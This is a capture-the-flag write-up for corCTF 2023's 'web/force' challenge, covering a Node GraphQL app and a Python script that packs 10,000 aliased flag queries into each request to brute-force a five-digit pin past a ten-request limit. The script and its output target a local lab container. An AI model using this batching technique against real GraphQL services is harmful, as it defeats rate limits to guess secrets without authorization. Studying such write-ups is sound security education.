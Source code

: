 # corCTF 2023
## web/force

In this challenge we are given tarball file to be download. It contains the source code of the web app that we can run as Docker using the Dockerfile provided.

```Dockerfile
FROM node:18

WORKDIR /app
COPY src/package* ./
RUN npm ci

COPY src/ .

CMD ["node", "--expose-gc", "web.js"]
```

We can then build the image and run it for testing. I use localhost port 8090 for this container.

```bash
> docker build -t web/force .                                                              docker.io/library/node:18@sha256:c85dc4392f44f5de1d0d72dd20a088a542734445f99bed7aa8ac895c706d370d    
writing image sha256:7d7d7a1e650b11de69f6cd2deda18c7c5647c127422c8234927bb25a7f236a34
naming to docker.io/web/force
> docker run -d -p 8090:80 web/force
55c31fd6a62e762300677d9e8cbd8bc9063935860a203e1052d253b106fa8f3b
```

Navigating using the browser we are greeted with the following page

![[img/force_main.png]]

At first I thought the query in the text box is just a normal JSON format. But after looking into the source code I realized that it is GraphQL query. Before trying any exploit, I first try web app as intended to see how it behaves.

![[img/force_first_try.png]]

Knowing nothing about GraphQL, I do some research online on how GraphQL works and looking up if there are any known vulnerabilities. One of the features of GraphQL is batch querying where you can do several queries at the same time using only one HTTP request. Thus, this makes for a suitable attack vector for bruteforcing the pin combination. I then look to the `web.js` for more information of the app.

```javascript
import fastify from 'fastify'
import mercurius from 'mercurius'
import { randomInt } from 'crypto'
import { readFile } from 'fs/promises'

const app = fastify({
    logger: true
});

const index = await readFile('./index.html', 'utf-8');
const secret = randomInt(0, 10 ** 5); // 1 in a 100k??
let requests = 10;

setInterval(() => requests = 10, 60000);

await app.register(mercurius, {
    schema: `type Query {
        flag(pin: Int): String
    }`,
    resolvers: {
        Query: {
            flag: (_, { pin }) => {
                if (pin != secret) {
                    return 'Wrong!';
                }
                return process.env.FLAG || 'corctf{test}';
            }
        }
    },
    routes: false
});

app.get('/', (req, res) => {
    return res.header('Content-Type', 'text/html').send(index);
});

app.post('/', async (req, res) => {
    if (requests <= 0) {
        return res.send('no u')
    }
    requests --;
    return res.graphql(req.body);
});

app.listen({ host: '0.0.0.0', port: 80 });
```

In order to get the flag, the pin we provide need to be the same as the secret value, which is the correct pin. From the code, we can see that the secret value is between 1 and 100k and the maximum number of request that the app accept before refusing to try the query is 10. From this information we can make a batch query with 10k pins each request. To simplify this, I make a python script.

```python
import requests
import json

min = 0
max = 10000

def batch_loop(min, max):
    data = ''
    for x in range(min,max,1):
        data = data + f'batch{x+1}:flag(pin:{x})\r\n'

    return data
    
headers = {
    'Content-Type': 'text/plain;charset=UTF-8'
}

while True:
    data = batch_loop(min, max)
    data_g = '{\n'+data+'\n}'
    
    r = requests.post('http://localhost:8090',headers=headers,data=data_g)
    
    if 'corctf' in r.text:
        jsonFormat = json.loads(r.text)
        for key, val in jsonFormat['data'].items():
            if val != 'Wrong!':
                print(f'flag: {val}')
        break
        
    min = min + 10000
    max = max + 10000

    if max > 100000:
        print('failed.')
        break
    else:
        print('retrying...')
```

This script is probably not the most optimized script but it gets the job done. Running this we can get the flag.

```bash
> python solve.py
retrying...
retrying...
retrying...
retrying...
retrying...
retrying...
retrying...
retrying...
retrying...
flag: corctf{test}
```

Running this in the challenge's instance we'll get the flag: 
`corctf{S                T                  O               N                   K                 S}`
